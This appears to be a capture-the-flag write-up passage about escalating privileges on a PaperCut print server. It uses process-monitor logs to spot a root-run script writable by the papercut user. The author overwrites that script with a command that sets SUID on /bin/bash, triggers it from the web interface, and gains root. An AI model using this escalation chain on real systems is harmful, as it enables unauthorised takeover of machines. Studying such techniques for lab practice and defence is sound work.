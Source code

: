 ```bash
2024/04/22 18:32:42 CMD: UID=0     PID=1883   |
2024/04/22 18:32:42 CMD: UID=0     PID=1889   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:42 CMD: UID=0     PID=1888   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:42 CMD: UID=0     PID=1887   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:42 CMD: UID=0     PID=1890   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:44 CMD: UID=0     PID=1909   | /usr/bin/python3 -Es /usr/bin/lsb_release -sd
2024/04/22 18:32:47 CMD: UID=0     PID=1919   |
2024/04/22 18:32:47 CMD: UID=0     PID=1917   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:47 CMD: UID=0     PID=1921   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:47 CMD: UID=0     PID=1927   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:47 CMD: UID=0     PID=1926   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:47 CMD: UID=0     PID=1925   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
2024/04/22 18:32:47 CMD: UID=0     PID=1928   | /home/papercut/runtime/linux-x64/jre/bin/java -Djava.io.tmpdir=/home/papercut/server/tmp -Dserver.home=/home/papercut/server -Djava.awt.headless=true -Djava.locale.providers=COMPAT,SPI -Dlog4j.configurationFile=file:/home/papercut/server/lib/log4j2-command.properties -Xverify:none biz.papercut.pcng.server.ServerCommand get-config health.api.key
2024/04/22 18:32:48 CMD: UID=0     PID=1947   | /usr/bin/python3 -Es /usr/bin/lsb_release -sd
```

```bash
2024/04/22 18:32:47 CMD: UID=0     PID=1925   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
```

On the website, in this place: http://127.0.0.1:9191/app?service=page/PrintDeploy

When I am doing "### Import Mobility Print queues" --> Start Importing Mobility Print printers --> Refresh server, this command appears:
`/bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key`

So if we can modify server-command, we when we click on "refresh server", this will execute our malicious server-command?

We can write it:
```bash
(remote) papercut@bamboo:/home/papercut$ ls -lah /home/papercut/server/bin/linux-x64/server-command
-rwxr-xr-x 1 papercut papercut 493 Sep 29  2022 /home/papercut/server/bin/linux-x64/server-command
```

Good news, we just have to modify this and make a "refresh server".
I will just try to add a SUID to /bin/bash, so if it's executed, we just have to do `bash -p` to get root.

```bash
(remote) papercut@bamboo:/home/papercut$ echo "chmod +s /bin/bash" > /home/papercut/server/bin/linux-x64/server-command
```

Then after doing "refresh server", we can just `bash -p` to get root now.

```bash
(remote) papercut@bamboo:/home/papercut$ bash -p
(remote) root@bamboo:/home/papercut# id
uid=1001(papercut) gid=1001(papercut) euid=0(root) egid=0(root) groups=0(root),1001(papercut)
```

GG !
